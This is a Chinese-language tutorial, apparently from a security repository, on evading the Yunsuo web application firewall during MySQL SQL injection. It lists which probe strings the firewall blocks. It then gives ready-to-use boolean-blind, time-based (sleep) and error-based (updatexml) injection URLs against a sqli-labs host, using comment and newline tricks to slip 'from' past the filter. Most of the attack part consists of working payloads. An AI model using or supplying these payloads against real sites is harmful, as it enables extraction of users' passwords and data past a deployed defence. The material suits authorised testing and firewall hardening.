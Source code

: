 # 0x00 简单and探索

首先都是来测试下 and的绕过 

```
and 不拦截

and 1 拦截

and a 不拦截

and 'a' 不拦截

and 'a' > < =  拦截

```

差不多知道他的规则了 绕过来就很简单了 

```
mysql> select 'a'-0;
+-------+
| 'a'-0 |
+-------+
|     0 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'+1;
+-------+
| 'a'+1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'|1;
+-------+
| 'a'|1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)


and 'a'-0  不拦截

and 'a'|1  不拦截

```


# 0x01 我与云锁有个约会

早期云锁绕过非常简单，只需要在post 和 get 同时提交数据 他会只检测post的内容，很轻松的绕过，但是更新后云锁也是很多人谈之色变的。

以下内容都是把云锁的增强型防护开启


1. 简单的布尔盲注

```
and strcmp((substr((select user/**/()),2,1)),'0')

```

生僻函数绕过 这里比较难的点其实也在from，但是比云盾好点，毕竟可以用到注释

```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select from),2,1)),'0')-- +  拦截

http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select /*from*/),2,1)),'0')-- + 不拦截

```

看到这两条语句其实我们可以清楚的知道`/**/` 是我们可以利用的点,结合前面的知识我们只需要把我们的from放在注释里面然后把注释不起作用就OK


```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')-- +

```

![mysql](./img/2.5.1.png)

2. 时间盲注

时间盲注换换就行

```
http://192.168.130.135/Less-1/?id=1'  and if((strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')),1,sleep(5))-- +

```

3. 报错注入

```
http://192.168.130.135/Less-1/?id=1'  and `updatexml`(1,concat(0x7e,(select user/**/()),0x7e),1)/**/-- +

```

其他的自己探索吧,bypass也就一个知识量和思路的结合

![mysql](./img/2.5.2.png)

# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404

